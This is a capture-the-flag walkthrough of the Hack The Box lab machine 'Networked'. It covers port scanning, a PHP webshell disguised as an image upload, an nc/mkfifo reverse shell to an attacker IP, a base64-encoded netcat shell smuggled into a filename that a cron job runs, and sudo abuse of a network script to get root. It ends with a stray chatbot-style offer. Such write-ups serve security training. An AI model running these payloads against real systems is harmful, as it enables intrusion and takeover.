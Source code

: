 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
- **Vector**: Web Upload → Cron Command Injection → Network Script Abuse

---

## 🔍 Recon

### Nmap

```bash
nmap -p- --min-rate 10000 -oA networked-alltcp 10.10.10.146
```

```bash
nmap -p 80,22,443 -sC -sV -oA networked-tcpscripts 10.10.10.146
```

- **Ports open**:
  - [22](SSH) → OpenSSH 7.4
  - [80](HTTP.md) → Apache 2.4.6 (PHP 5.4.16)
  - 443 → Closed

---

## 🌐 Web Enumeration

### Gobuster / Dirsearch

```bash
dirsearch -u http://10.10.10.146
```

Found:
- `/upload.php`
- `/uploads/`
- `/backup/`
- `/index.php`
- `/backup/backup.tar` → Contains source code

---

## 🔬 Source Code Analysis (from `backup.tar`)

### Key Points from `upload.php` & `lib.php`:
- Only allows `.jpg`, `.png`, `.gif`, `.jpeg`
- Uses `check_file_type()` to validate MIME
- Uses `getnameUpload()` to extract extension after first `.`
- The server treats `something.php.png` as executable PHP due to Apache misconfig:

```apacheconf
AddHandler php5-script .php
```

---

## 💥 Exploitation: Webshell as Apache

### 🐚 Create Malicious File

Download Image
Named the Image as shell.png

#### Append cmd to image
```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.php.png
```

### 🐱 Upload Webshell

Go to:
```
http://10.10.10.146/upload.php
```

### 🐚 Reverse Shell Payload

Start listener:
```bash
nc -lnvp 6969
```

Trigger reverse shell:
```bash
http://10.10.10.146/uploads/eye.php.jpeg?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 6969 >/tmp/f
```

Shell as:
```bash
id
uid=48(apache) gid=48(apache)
```

---

## 🔼 PrivEsc: Apache → Guly

### 🧹 Exploit `check_attack.php` via Cron

File:
```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Exploit with a filename:
```bash
touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjEzIDU4NTgK | base64 -d | sh; b'
```

(Decoded: `nc -e /bin/bash 10.10.14.13 5858`)

### 🧠 Wait for Cron

Listener:
```bash
nc -lnvp 443
```

Shell as:
```bash
id
uid=1000(guly) gid=1000(guly)
```

✅ Grab `user.txt`

---

## 🔼 PrivEsc: Guly → Root

### 🔧 Sudo Permission

```bash
sudo -l
```

Allowed:
```
/usr/local/sbin/changename.sh
```

Script writes a config and calls `ifup`:

```bash
echo "interface PROXY_METHOD:" ; read x
echo $x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

If input includes a space, code after it is executed.

### 💥 Exploit

```bash
sudo /usr/local/sbin/changename.sh
```

Inputs:
```
NAME: test
PROXY_METHOD: a /bin/bash
BROWSER_ONLY: b
BOOTPROTO: c
```

`n bash` works for all also

Root shell:
```bash
id
uid=0(root) gid=0(root)
```

✅ Grab `root.txt`

---

## 🔎 Beyond Root: Apache Misconfig

```apacheconf
AddHandler php5-script .php
```

🛑 This causes `.php.*` to be interpreted as PHP.

---

Let me know if you want a downloadable version (PDF/Markdown) or want this organized for a Notion/Obsidian vault ⚡
